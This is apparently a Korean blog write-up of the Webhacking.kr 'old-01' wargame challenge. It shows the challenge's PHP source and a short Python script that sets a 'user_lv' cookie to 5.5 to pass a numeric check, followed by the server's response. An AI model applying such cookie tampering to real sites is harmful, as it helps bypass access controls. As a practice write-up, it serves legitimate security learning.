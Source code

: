 ```yaml
---
layout: post
title: old-01
author: bindon
category: Webhacking.kr
date: 2019-11-27
---
```


# Problem Analysis
![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking KR/old-01-problem.png){:style="display: block; margin: 0 auto"}

문제를 확인하면, 이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```
코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 `user_lv` 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 `user_lv=1`이 할당된 것을 확인할 수 있습니다.
코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
1. `user_lv`가 is_numeric()을 통과하지 못하면 `user_lv`를 1로 설정
2. `user_lv`가 6 이상이면 `user_lv`를 1로 설정
3. `user_lv`가 5 초과라면 `solve(1)`을 실행

우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
1번 조건은 숫자를 입력하면 됩니다.
2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
즉, `is_numeric()`을 통과하며 $$ 5 < user\_lv < 6 $$을 만족하면 됩니다.

해당 조건을 만족하는 수를 알기 위해서는 [`is_numeric()`](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
`is_numeric()`은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user\_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
여기서는 `user_lv`를 `5.5`로 정의하여 사용할 예정입니다.

# Implementation
```python
from bindon import login

print "[+] Login and get session"
session = login.getSessionWithLogin()

print "[+] Set URL"
url = "https://webhacking.kr/challenge/web-01/"

print "[+] Set cookies"
cookies = {
    "user_lv": "5.5"
}

print "[+] Exploit"
response = session.get(url=url, cookies=cookies)

print response.text
```

# Execution Result
```
[+] Login and get session
[+] Set cookies
[+] Exploit
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<script>alert('already solved');</script><br>level : 5.5<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```